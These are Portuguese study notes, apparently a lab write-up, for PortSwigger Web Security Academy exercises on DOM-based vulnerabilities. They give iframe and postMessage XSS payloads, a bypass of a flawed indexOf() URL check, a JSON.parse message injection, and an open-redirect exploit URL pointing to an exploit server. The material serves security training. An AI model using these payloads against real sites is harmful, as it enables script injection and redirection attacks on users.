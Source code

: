 # Vulnerabilidades DOM Based

Para identificar essas vulnerabilidades é recomendado utilizar o Brwoser da PortSwigger e a extensão que identifica esse tipo de exploração.

Também pode-se identificar analisando o código fonte, principalmente de arquivos JavaScript.

<br>

## Laboratórios

**DOM XSS using web messages**

Perceba que a página home contém a função `addEventListener()` que espera uma mensagem web.

Envie isso para a vítima atrás do exploit server:
```
<iframe src="//0a8100fe032e3917c66ead67003c0020.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

<br>
<br>

**DOM XSS using web messages and a JavaScript URL**

O JavaScript contém uma checagem falha usando indexOf() que verifica apenas pelas palavras `http:` ou `https:` em qualquer lugar da mensagem web.
```
<iframe src="https://0a2d00d604a3acfbc67064610056003c.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```

<br>
<br>

**DOM XSS using web messages and JSON.parse**
```
<iframe src="https://0a03009c03110946c0d1aea2003700e0.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

<br>
<br>

**DOM-Based Open Redirection**

Esse é o código-fonte vulnerável:
```
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
```

Exploit:
```
https://0ae900830459749cc2465788006000b5.web-security-academy.net/post?postId=7&url=https://exploit-0ab30006040d744dc2a7561101df00f9.exploit-server.net/exploit#
```
